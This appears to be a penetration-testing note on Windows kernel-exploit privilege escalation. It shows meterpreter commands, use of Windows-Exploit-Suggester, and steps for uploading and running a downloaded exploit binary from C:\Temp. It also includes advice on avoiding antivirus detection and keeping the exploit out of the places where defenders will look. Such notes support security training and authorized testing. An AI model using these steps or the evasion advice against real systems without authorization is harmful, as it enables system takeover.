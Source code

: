 

Related to [[Privilege Escalation]]

A kernel is a computer program that is the core of an operating system and has complete control over every resource and hardware on a system.

Windows NT is the kernel that comes pre-packaged with all versions of Microsoft Windows.

Kernel Exploits tend to target vulns that allow to run arbitrary code on the system.

https://github.com/AonCyberLabs/Windows-Exploit-Suggester
https://github.com/SecWiki/windows-kernel-exploits/tree/master/M16-135

Using [[Metasploit]] we can use meterpreter commands like:

``` bash
getsystem
```

We can also use

``` bash
post/multi/recon/local_exploit_suggester
```

---

#### Using Windows-Exploit-Suggester

We can start getting the sysinfo from the machine

``` bash
sysinfo
```

Then copy the output to a file on the attacker machine

On the first run we should update:

``` bash
./windows-exploit-suggester.py --update
```

``` bash
./windows-exploit-suggester.py --database [.xls file] --systeminfo [sysinfo_file]
```

The exploits listed at the top are the ones with most chance of working.

Then we can search the exploits at the SecWiki repo listed in this file.

Click on the binary and download it, then we need to transfer it to the Windows target system.
Be cognizent of antivirus detection aswell.

We can use meterpreter to upload to temp

``` bash
cd C:\\
cd Temp\\
upload [pathtoexe]
shell
.\[exe]
```

You never one to use the home directory because THEY WILL SEE the exploit, when running the exe we may have to specify something, for example windows version

``` bash
.\[exe] [version]
```

